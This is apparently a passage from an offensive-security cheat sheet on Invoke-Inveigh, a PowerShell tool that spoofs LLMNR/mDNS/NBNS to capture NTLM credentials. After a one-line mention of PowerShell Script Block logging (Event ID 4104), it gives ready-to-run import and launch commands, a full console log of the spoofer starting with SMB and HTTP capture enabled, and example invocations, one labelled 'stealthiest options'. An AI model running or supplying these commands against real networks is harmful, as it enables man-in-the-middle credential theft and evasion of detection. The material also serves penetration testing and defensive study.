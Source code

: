 PowerShell Script Block logging - **Event ID 4104**

```
Event Viewer > Applications and Services Logs > Microsoft > Windows > PowerShell > Operational log.
```

[Invoke-Inveigh.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1) is a Windows PowerShell LLMNR/mDNS/NBNS spoofer man-in-the-middle tool with challenge/response capture over HTTP/HTTPS/Proxy/SMB.

```powershell
PS > Import-Module .\Inveigh.ps1
PS > Invoke-Inveigh -IP 10.100.11.150

Inveigh 1.3.1 started at 2024-03-20T14:23:25
Elevated Privilege Mode = Enabled
WARNING: Windows Firewall = Enabled
Primary IP Address = 10.100.11.150
LLMNR/mDNS/NBNS Spoofer IP Address = 10.100.11.150
LLMNR Spoofer = Enabled
LLMNR TTL = 30 Seconds
mDNS Spoofer = Disabled
NBNS Spoofer = Disabled
SMB Capture = Enabled
HTTP Capture = Enabled
HTTPS Capture = Disabled
HTTP/HTTPS Authentication = NTLM
WPAD Authentication = NTLM
WPAD NTLM Authentication Ignore List = Firefox
HTTP Reset Delay List = Firefox
HTTP Reset Delay Timeout = 30 Seconds
WPAD Default Response = Enabled
Machine Account Capture = Disabled
Real Time Console Output = Disabled
Real Time File Output = Disabled
WARNING: Run Stop-Inveigh to stop Inveigh
```

.EXAMPLE Import full module and execute with all default settings.
```
Import-Module .\Inveigh.psd1;Invoke-Inveigh
```

.EXAMPLE Dot source load and execute specifying a specific local listening/spoofing IP.
```
. ./Inveigh.ps1;Invoke-Inveigh -IP 192.168.1.10
```

.EXAMPLE Execute specifying a specific local listening/spoofing IP and disabling HTTP challenge/response.

```
Invoke-Inveigh -IP 192.168.1.10 -HTTP N
```

.EXAMPLE Execute with the stealthiest options.
```
Invoke-Inveigh -SpooferRepeat N -WPADAuth Anonymous -SpooferHostsReply host1,host2 -SpooferIPsReply 192.168.2.75,192.168.2.76
```
